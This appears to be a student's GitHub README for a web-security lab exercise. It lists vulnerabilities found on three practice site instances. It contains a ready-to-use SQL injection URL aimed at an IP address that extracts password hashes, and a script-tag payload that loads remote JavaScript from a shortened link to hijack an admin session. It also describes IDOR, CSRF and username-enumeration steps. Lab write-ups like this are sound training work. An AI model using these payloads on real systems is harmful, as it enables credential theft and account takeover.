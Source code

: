 # project-8
blue:
Vulnerability #1: SQL Injection (SQLi)
![](https://github.com/guanomite/project-8-/blob/master/Screenshot%20(23).png)
put this command in the URL: https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Chashed_password+FROM+users+limit+20+offset+2+--+
Vulnerability #2:Session Hijacking/Fixation
![](https://github.com/guanomite/project-8-/blob/master/Screenshot%20(31).png)
When logged in as an admin go to "Countries, States, & Territories".
Click on "Show", doesn't matter which country.
Click on "Add a State".
Enter values for "Name" and "Code" and click create.
Click on "Add a Territory".
Ender a value for "Name".
In the filed "Position" type:
      <script src="https://bit.ly/2z1UCVh"></script>
      then relog as admin and the public user will log in as admin
red:
Vulnerability #1: Insecure Direct Object Reference (IDOR)
![](https://github.com/guanomite/project-8-/blob/master/Screenshot%20(18).png)
Go to the "Find a Salesperson" page.
Click on one of the salespersons page.
Increment the number at the end of the URL.
Vulnerability #2: CSRF
![](https://github.com/guanomite/project-8-/blob/master/Screenshot%20(33).png)
go to burp, then repeator in the user list, change user name to somthing then refrash the page, then see the change 

green:
Vulnerability #1: Username Enumeration
![](https://github.com/guanomite/project-8-/blob/master/Screenshot%20(32).png)
On the Log In page try to bruteforce diffent usernames.
The usernames tha exist in the database will get the message "Log in was unsuccessful" in bald.
The error message is highlited in bald because a different CSS class is assigned to the error message for usernames that exit in the database.

Vulnerability #2: XSS
![](https://github.com/guanomite/project-8-/blob/master/Screenshot%20(30).png)
